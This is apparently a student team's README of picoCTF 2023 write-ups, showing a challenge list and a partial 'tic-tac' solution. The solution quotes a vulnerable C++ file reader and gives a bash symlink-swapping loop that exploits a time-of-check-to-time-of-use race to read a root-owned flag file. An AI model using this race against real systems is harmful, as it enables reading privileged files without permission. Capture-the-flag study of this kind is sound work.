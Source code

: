 # picoCTF2023-Writeups
A list of writeups from the 2023 PicoCTF hacking competition from team cvhs_exe.

(Follow this format pls)

<details open><summary>
	
### [Binary Exploitation](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#binary-exploitation):
	
</summary>
	
- [two-sum](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#two-sum)
- [babygame01](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#babygame01)
- [tic-tac](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#tic-tac)
- [VNE](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#vne)
- [hijacking](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#hijacking)
- [babygame02](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#babygame02)
- [two-sum](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#two-sum)
- [Horsetrack](https://github.com/TrooperZ/CSA_Assignments/blob/main/README.md#horsetrack)

	
</details>


# Binary Exploit

(Add the stuff yall did as well)


## tic-tac 
#### [View Question in Pico Gym](https://play.picoctf.org/practice/challenge/380?category=6&originalEvent=72&page=1)

AUTHOR: JUNIAS BONOU

### Description:

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

SSH to `saturn.picoctf.net`, port `[port provided by instance]`, and run the binary named `txtreader` once connected. Login as `ctf-player` with the password, `[password provided by instance]`

Tags: picoCTF 2023, Binary Exploitation, linux, bas, toctou

Hints: 
- None.

### Solution: 

Upon loading up to the ssh, we looked at 3 useful files with `ls`: 
```
flag.txt  src.cpp  txtreader
```

As expected, we didn't have access to `flag.txt`. `txtreader` didn't let us open it either, so we peeked in the source code provided.
```
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}

```

As said in the name and tags, there's a [TOCTOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) vulnerability, where the file is opened before it checks for permissions when the file is read. This is easily exploitable through a handy dandy feature called [symbolic links](https://en.wikipedia.org/wiki/Symbolic_link). A symbolic link to a file is created with this command `ln -s [original file] [linked file]`. You may need to change `-s` to `-sf` to force it if the file exists.

Through this, we create our own file which we have permissions to read to with `echo OurFile > notflag.txt`. 

Then, we write a bash one-liner to create a link file and swap the linkage to the file between the flag and our dummy file. This way, we can change the ownership of the file right after it's opened and read into the memory of the program.
```
while true; do ln -sf flag.txt linky; ln -sf file.txt linky; done &
```

This will run in the background.


